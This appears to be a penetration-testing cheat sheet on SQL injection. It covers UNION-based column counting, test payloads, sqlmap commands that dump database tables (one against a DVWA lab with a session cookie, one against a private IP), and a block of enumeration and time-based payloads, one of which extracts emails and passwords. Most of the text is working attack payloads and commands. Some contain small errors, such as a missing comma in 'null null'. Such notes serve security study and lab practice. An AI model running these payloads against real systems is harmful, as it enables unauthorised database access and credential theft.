 To exploit a SQL injection you first need to know how many fields the vulnerable query selects, you do this by trial and error. We know there's an injection by `' UNION SELECT null; -- -`, this should display:

```bash
Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32
```

* We can try with two fields: `' UNION SELECT null null; -- -` and three even to confirm that the original query only has two fields.
* Once we know how many fields are in the query it's time to test which fields are part of the output page.
* You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`.
* Now we can exploit the injection: `' UNION SELECT user(), 'elsid2'; -- -`.
* Not only `SELECT` queries are vulnerable.

### SQLMap

* Can detect and exploit SQL injections
* Needs to know the vulnerable URL and the parameter to test for a SQLi

```bash
sqlmap -u <URL> -p <inejction parameter> [options]
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
sqlmap -u <url> --data=<POST string> -p id [options] # POST string as user=a&pass=a

# You can copy the POST string  from a request intercepted in Burp Suite
sqlmap -r file.req -p user
sqlmap -u 'http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=231&Submit=Submit#' --cookie="PHPSESSID=26faf41ffba440ce1346b8d8ca9408ac; security=low" -D dvwa -T users --dump

# --technique=U --> UNION based SQL injection technique
# --banner shows server's banner
# --flush-session

sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D awd -T accounts --dump
```

#### From discord \(to test\)

```sql
1' UNION SELECT 1-- -

3' AND sleep(5) -- -

SELECT 1, schema_name,3 FROM information_schema.schemata limit 1,1-- -

SELECT 1, table_name,3 FROM information_schema.tables WHERE table_schema=hotel limit 1,1-- -

SELECT 1, column_name,3 FROM information_schema.columns WHERE table_schema=hotel and table_name=room limit 1,1

SELECT 1, table_name,3 FROM information_schema.tables limit 1,1-- -

SELECT group_concat(email,0x3a,Password) from awd.accounts limit 1,1;
```
